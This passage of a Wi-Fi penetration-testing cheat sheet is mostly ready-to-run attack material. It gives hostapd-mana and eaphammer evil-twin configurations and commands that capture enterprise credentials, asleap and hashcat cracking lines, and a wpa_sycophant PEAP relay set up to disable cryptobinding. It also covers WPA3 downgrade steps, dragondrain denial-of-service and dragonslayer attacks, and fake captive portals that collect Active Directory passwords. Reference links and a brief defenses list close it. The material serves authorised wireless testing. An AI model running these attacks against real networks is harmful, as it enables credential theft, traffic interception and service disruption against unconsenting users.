    response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

evilhostapd.conf configuration file
```
interface=wlan1
ssid=EvilCorp
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
```

hostapd.eap.user
```
* PEAP,TTLS,TLS,MD5,GTC
"t" TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP "1234test" [2]
```

Cracking the NetNTLM challenge using **asleap** or **hashcat**.  
```
asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist 
./hashcat64.bin -a 0 -m 5500 hash.txt dictionary.txt -r rule.txt
```

#### Eaphammer
Create an identical fake certificate for authentication server.
```
./eaphammer --cert-wizard
```

Execute evil twin attack on channel 4 against CORPOWIFI SSID
```
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CORPOWIFI --creds
/eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CORPOWIFI --creds --negotiate weakest
```

Cracking the NetNTLM challenge using asleap
```
asleap -C 06:9b:40:83:37:90:fd:41 -R 27:63:33:83:e7:25:98:5e:6d:4f:ed:73:b9:c5:1a:cc:91:13:bc:f9:13:95:30:56 -W ../wordlists/100-common-passwords.txt
```

#### WPA2-EAP Relay
- https://sensepost.com/blog/2019/peap-relay-attacks-with-wpa_sycophant/
- https://sensepost.com/blog/2019/understanding-peap-in-depth/
- https://github.com/sensepost/wpa_sycophant
- https://www.youtube.com/watch?v=eYsGyvGxlpI

--> This attack need at least 2 interfaces (and 3 in case of deauthentication frame to be sent).  

1. Mana will pretend to be corporate AP
2. Supplicant (wpa_sycophant) retrieving the required information from mana to connect to the legitimate corporate AP.



This attack can fail if :
- User doesn't accept the rogue certificate
- Cryptographic binding (cryptobinding)
  - When cryptobinding is enabled it creates a connection between the two tunnels to ensure that the client that is authenticating against the RADIUS server is the same client that created the initial TLS tunnel to the access point.

Running hostapd-mana
```
hostapd-mana hostapd.conf | grep 'SYCOPHANT\|MANA'
```

hostapd.conf file
```
interface=wlan0
ssid=CorpoSSID
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
enable_sycophant=1
sycophant_dir=/tmp/
```

Launching wpa_sycophant
```
./wpa_sycophant.sh -c wpa_sycophant.conf -i wlan1
```

wpa_sycophant.conf (bssid_blacklist = MAC of your fake hostapd AP)
```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  # Read https://w1.fi/cgit/hostap/plain/wpa_supplicant/wpa_supplicant.conf for help with phase1 options. 
  # This attempts to force the client not use cryptobinding. 
  phase1="crypto_binding=0 peapver=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


# WPA3
The major improvement of WPA3 is a improved handshake (*Dragonfly-Handshake*) that makes it impossible for attackers to record the *4-Way Handshake* and launch a offline dictionary attack.  

The Dragonfly variant used in WPA3 is also known as *Simultaneous Authentication of Equals* (SAE).

WPA3 improvments:
- Provide mutual authentication
- Negotiate Session Key
- Prevent Offline Dictionary Attacks
- Perfect forward secrecy

WPA3 also introduces *perfect forward secrecy* which prevents attackers from decrypting past traffic after a key breach.

Additionally, WPA3 supports *Protected Management Frames* (PMF) which makes it impossible to launch *de-authentication attacks*.  
---> WPA2 already supports this, therefore this is not a novelty of WPA3. However with WPA, PMF are included from the start in the certification program.




### OWE : Opportunistic Wireless Encryption
OWE authentication makes Wi-Fi network access as convenient as that in open authentication mode, allowing users to access the Wi-Fi network without entering the password. In OWE authentication mode, a STA and an AP perform a Diffie-Hellman key exchange to encrypt data transmitted between the STA and Wi-Fi network, thereby protecting user data security.  



- https://posts.specterops.io/war-never-changes-attacks-against-wpa3s-enhanced-open-part-1-how-we-got-here-71f5a80e3be7
- https://posts.specterops.io/war-never-changes-attacks-against-wpa3s-enhanced-open-part-2-understanding-owe-90fdc29126a1
- https://posts.specterops.io/war-never-changes-attacks-against-wpa3s-enhanced-open-part-3-owe-nearly-indistinguishable-ad3b3928a35a

### ZKP - Zero Knowledge Proof  

Within WPA3 the important improvment come from the new handshake which does not transmit any secrets or credentials.  

A zero knowledge proof is a cartographic protocol that enables one party to to prove to another party that *they know a value x* without conveying any information other than the fact that they know the value of x. 

WPA3 makes use of such a zero knowledge proof to ensure that no secrets of the passwords are transmitted in the *SAE handshake*. The *SAE handshake* is the first handshake realized before classical *4 way handshake* such as in WPA2.

SAE handshake goal is to make sure both handshake participants can be sure that the other party knows that they possess the same and correct password.   
--> Mutual authentication (both parties prove that they have knowledge over the same password.)

### Use WPA3-SAE authentication on Linux
- https://askubuntu.com/questions/1290589/how-to-use-wpa3-with-ubuntu-20-04

### WPA3-SAE

SAE : Simultaneous Authentication of Equals (SAE)



Before executing the DragonFly handshake, the password which may be stored in *ascii* or *unicode* needs to be converted in *group Element P*.  
This *group Element P* will be used within the cryptographic calculation of the handshake.

- P = Password element (PWE)
- P = Hash(pw, STA, AP, counter)



Then the *Commit phase* can occur, this phase will be in charge of *negotiating the shared key* between Client and Access Point.



Then a last step is realized *confirm phase* to validate both peers negotiate the same key which also proof they both posses the password.


Dragonslayer: Implements attacks against EAP-pwd.
- https://github.com/vanhoefm/dragonslayer

Dragondrain: This tool can be used to test to which extent an Access Point is vulnerable to Denial-of-Service attacks against WPA3’s SAE handshake.
- https://github.com/vanhoefm/dragondrain-and-time

Dragontime: This is an experimental tool to perform timing attacks against the SAE handshake if MODP group 22, 23, or 24 is used. Note that most WPA3 implementations by default, do not enable these groups.
- https://github.com/vanhoefm/dragondrain-and-time

Dragonforce: This is an experimental tool which makes the information recover from our timing or cache-based attacks, and performs a password partitioning attack. This is similar to a dictionary attack.
- https://github.com/vanhoefm/dragonforce

### Attacking WPA3

#### WPA3-Transition Downgrade Attack
Allow non WPA3-SAE compliant device to connect using WPA2-PSK.  
--> **Issue**: WPA2 clients and WPA3 clients will use the same secret passphrase.  

2 techniques can be used:
1. Capture WPA2-PSK handshake of connecting client and crack the handshake
2. In case no clients use WPA2-PSK you can try to create fake WPA2-PSK and wait for client to connect, capture and crack WPA2 handshake
  - Same SSID
  - Same channel

**Steps**:
1. Identify WPA3 transition network
- Check RSN element of beacon frame for both PSK and SAE presence
2. Create a WPA2-PSK network (any random wrong passphrase)
3. If PMF is enabled wait for the client (if not deauth the client) to make mistake, capture 4-way handshake and run dictionary attack
   


Below is the PMF related beacon, PMF is set as required and capable, so the bits are set to 1.


 
**Defense**: Disable WPA3 transition mode and go for 2 separate networks with separate passphrase.

#### Security Group Downgrade Attack
Force a client to use a weak security group.  

**Steps**:
1. Host a WPA3 honeypot and wait for client to connect
2. When client connects, reject the commit message till the time client doesn't use the weak group
3. Once the client connects, capture the dragonfly handshake and crack it

--> Not working if weak security groups are not supported by the device.  

**Defense**: 

#### WPA3-SAE timing or cache password paritioning
- https://github.com/vanhoefm/dragonforce

#### Timing attack using weak group
Timing attacks against the SAE handshake if MODP group 22, 23, or 24 is used. Note that most WPA3 implementations by default do not enable these groups.

```
./dragontime -d wlan0 -c 1 -a 11:22:33:44:55:66 -g 27 -i 250 -t 750 -o measurements.txt
```

#### Denial of Service against WPA3-SAE
Test to which extend an Access Point is vulnerable to denial-of-service attacks against WPA3's SAE handshake. The Dragondrain tool forges Commit messages to cause a high CPU usage on the target.  
- https://github.com/vanhoefm/dragondrain-and-time 

```
./dragondrain -d wlan0 -a 01:02:03:04:05:06
```

#### WPA3-EAP - Invalid curve attack
- https://github.com/vanhoefm/dragonslayer

dragonslayer/client.conf
```
network={
	ssid="WPA3Corpo"
	identity="jdoe"

	key_mgmt=WPA-EAP
	eap=PWD
	password="unknown password"
}
```

 ```
 sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
 ```

 #### WPA3-EAP - Reflection attack
 - https://github.com/vanhoefm/dragonslayer

```
sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
```

# Wi-Fi Hacking Mind Map

- [Link to the map](https://raw.githubusercontent.com/koutto/pi-pwnbox-rogueap/main/mindmap/WiFi-Hacking-MindMap-v1.png)


# Other Attacks
### Fake Captive Portal

- Asking connected client for AD or any sensitive credentials 
- You could also redirect the user to download some binary

### Fake Open Access Point
The main goal is to create an interesting enough SSID in order for a victim to connect (e.g. SSID: Company-FreeSnacks).  

- Monitor connection from clients
- Directly attacked clients
- MITM their traffic

# To be checked - Validated during an engagement
### General
- Check for the presence of rogue or undocumented Access Point

### Open Authentication
- Captive portal bypass
- DNS tunneling
- Passive Sniffing
- Evil Twin (MITM, Captive Portal (phishing), Hostile portal attack, OWE Transition downgrade)
- Client isolation
- Network segmentation
- AD Authentication on Guest Portal
- Self-Signed Certificate on Guest Portal
- Azure AD Conditional Access Policy
- Active Directory Authentication on Guest Portal

### Personal Authentication
- WEP attacks
- WPS Pin attacks
- PMKID attack
- 4 way handshake sniffing
- Deauthentication attack
- KRACK Attack
- FRAG Attack
- WPA3-Transition Downgrade attack
- WPA3-SAE timing or cache based password partitioning attacks

### Enterprise
- Evil twin attack / Fake AP
- Password Spray
- Absence of Identity Privacy

# Resources

#### WPA3 - DragonFly
- https://sarwiki.informatik.hu-berlin.de/WPA3_Dragonfly_Handshake#:~:text=The%20major%20improvement%20of%20WPA3,traffic%20after%20a%20key%20breach.
- https://sarwiki.informatik.hu-berlin.de/WPA3_Dragonfly_Handshake#:~:text=The%20major%20improvement%20of%20WPA3,traffic%20after%20a%20key%20breach.

#### Dragonblood: Analyzing the Dragonfly Handshake of WPA3 and EAP-pwd
- https://papers.mathyvanhoef.com/dragonblood.pdf

#### WEP Cloaking
- https://media.defcon.org/DEF%20CON%2015/DEF%20CON%2015%20presentations/DEF%20CON%2015%20-%20gupta_and_ramachandran-WP.pdf

#### 4-Way Handshake
- https://www.wifi-professionals.com/2019/01/4-way-handshake

#### PTK Derivation
- https://crypto.stackexchange.com/questions/47003/how-pairwise-transient-key-is-derived-or-generated
- https://en.wikipedia.org/wiki/Pseudorandom_function_family
- https://dalewifisec.wordpress.com/tag/ptk/

#### Pi-PwnBox Rogue AP
- https://github.com/koutto/pi-pwnbox-rogueap

#### OpenWRT supported devices
- https://openwrt.org/toh/views/toh_extended_all

#### OpenWRT Compatibles routers
- https://openwrt.org/toh/start

#### SSID Oracle Attack on Undisclosed Wi-Fi Preferred Network Lists
- https://www.hindawi.com/journals/wcmc/2018/5153265/

#### WEP attack fragmentation - chopchop
- https://github.com/DominikStyp/WEP-attack

# Tools
- https://github.com/derv82/wifite2
- https://github.com/sensepost/berate_ap
- https://github.com/vanhoefm/krackattacks-poc-zerokey
- https://github.com/ZerBea/hcxtools
- https://github.com/sensepost/hostapd-mana
- https://github.com/sensepost/ppp_sycophant
- https://github.com/sensepost/wpa_sycophant
- https://github.com/s0lst1c3/eaphammer
- https://github.com/vanhoefm/dragonslayer
- https://github.com/vanhoefm/dragondrain-and-time
- https://github.com/vanhoefm/dragonforce
- https://github.com/vanhoefm/fragattacks
- https://github.com/vanhoefm/krackattacks-scripts

# Defenses
- https://github.com/SYWorks/waidps
- http://syworks.blogspot.com/2014/04/waidps-wireless-auditing-intrusion.html

#### KARMA Attack detection
- https://github.com/AlexLynd/WiFi-Pineapple-Detector